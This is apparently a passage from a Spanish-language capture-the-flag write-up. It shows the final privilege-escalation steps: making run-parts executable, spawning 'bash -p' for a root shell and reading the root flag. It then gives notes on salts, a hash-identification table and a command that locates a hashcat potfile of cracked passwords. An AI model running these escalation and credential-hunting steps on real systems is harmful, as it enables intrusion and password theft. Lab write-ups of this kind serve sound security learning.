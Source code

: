 ```bash
chmod +x /usr/local/bin/run-parts
```

Conectamos por SSH y ejecutamos:

```bash
bash -p
```

Leemos la flag:

```bash
cat /root/root.txt
```

---

# 🧠 Notas

## ¿Qué es un salt?

Un **salt** es una **cadena aleatoria** añadida a una contraseña antes de hashearla.  
Evita colisiones y protege contra ataques con rainbow tables.

---

## Identificación de hashes

| Tipo de Hash | Longitud | Ejemplo |
|--------------|----------|---------|
| **MD5**      | 32       | `5f4dcc3b5aa765d61d8327deb882cf99` |
| **SHA-1**    | 40       | `5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8` |
| **SHA-256**  | 64       | `5e884898da28047151d0e56f8dc6292773603d0d6aabbdd7...` |
| **SHA-512**  | 128      | `cf83e1357eefb8bd...` |
| **NTLM**     | 32       | `32ed87bdb5fdc5e9cba88547376818d4` |
| **bcrypt**   | 60       | `$2y$10$e0NRW5B8...` |
| **LM hash**  | 32       | Solo letras mayúsculas y números |

---

# 📂 Hashes crackeados

Buscar archivo:

```bash
find / -name "hashcat.potfile" 2>/dev/null
```
